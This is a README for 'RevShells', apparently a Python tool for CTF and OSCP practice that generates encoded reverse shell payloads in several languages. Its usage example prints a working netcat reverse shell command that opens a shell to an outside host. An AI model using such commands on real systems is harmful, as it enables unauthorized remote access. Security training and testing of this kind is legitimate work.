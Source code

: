 # RevShells


RevShell is a Python-based tool that was built to have a variety of shells all in one place. This project was created to be used in CTFs and OSCP in mind. This tools allow users to choose from a list of reverse shells such as bash, netcat, ncat, lua, powershell, ruby, perl, java, and python. RevShells can encode these shells with URL encoding and base64.

## Usage
  `python3 revshells.py -h`  
  will open a help menu, which will show you the needed syntax.

  ex:
      `python3 revshells.py -l or python3 revshells.py --list`  
  will give you a list of the shells that are available at the moment.   
        Once you see a shell you want, use -t or --type and the shell name to invoke it.
  
  `python3 revshells.py -i 1.1.1.1 -p 443 -t bash`  
    output: `nc -e /bin/bash 1.1.1.1 443`

 `--encode or -e` is entirely optional.  
 Your revshell will look like the above output if you do not use it.  
 URL encoding and base64 encoding were kept in mind and have been tested.
  
## Commands
    options:
    -h or --help: Display available commands and their functionalities.
    options:
    -i or --ip: your IP address
    -p or --port: your port 
    -t or --type: Shell type to generate
    -l or --list: List all available shell types
    -a or --all: Generate all shell types
    -e or  --encode: Encode payload (base64 or url) this one is optional.
                        


Installation Instructions

To use the Rev-Shell tool, follow these steps:  
Clone the Repository:

    git clone https://github.com/DelaDirty/RevShells.git  

Navigate to the Directory:

    cd RevShells



# Disclaimer
This tool is intended for educational and testing purposes only. Misuse of this tool for unauthorized access to systems or networks is strictly prohibited. The developers of this tool are not responsible for any illegal or unethical use of the tool






